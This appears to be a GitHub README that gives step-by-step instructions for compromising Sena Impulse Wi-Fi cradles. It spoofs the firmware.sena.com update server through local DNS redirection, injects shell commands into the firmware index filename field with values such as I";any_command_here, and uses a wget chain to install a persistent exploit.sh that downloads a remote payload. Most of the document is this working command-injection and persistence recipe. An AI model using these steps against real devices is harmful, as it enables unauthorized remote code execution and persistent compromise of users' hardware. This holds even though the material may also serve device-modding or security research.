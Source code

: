 # PWNing the Sena Wifi Cradle and its Derivatives
### (as tested on the Sena Impulse Wifi update part)

IMPORTANT: Make sure all text files got unix linefeeds

## Initial entering&PWNing (Sena Impulse):
* Doing a local DNS redirect of ```firmware.sena.com``` to your own LAN ip.
* Create a folder ```senabluetoothmanager```.
* Create a folder ```WiFiCradle/impulse```
* Create a file check.cdat with following content:
    SENA
(yes, the linefeed at the end matters)
* Download firmware.sena.com/senabluetoothmanager/Firmware and save it at the same folder on your local server.
* Replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";any_command_here```.  
That line change allows injection of arbitrary commands.
* Connect the Sena Impluse to the WiFi via the app or via manually doing the app commands.
## Getting Persistence
* copy the provided install.sh and PWNa.zip to the root directory of your server.
* rename install.sh to index.html (needed to bypass a quirk)
* In the Firmware index file replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";wget firmware.sena.com;chmod +x index.html```.
* Trigger a firmware update. It will seemingly succeed or "fail". Instead it ran the injected command.
* open https://IP_OF_SENA_IMPULSE/cgi-bin/index.html to install the persistence.
* Reboot and you got a file under https://IP_OF_SENA_IMPULSE/cgi-bin/exploit.sh which downloads a payload.sh from the root of your webserver.
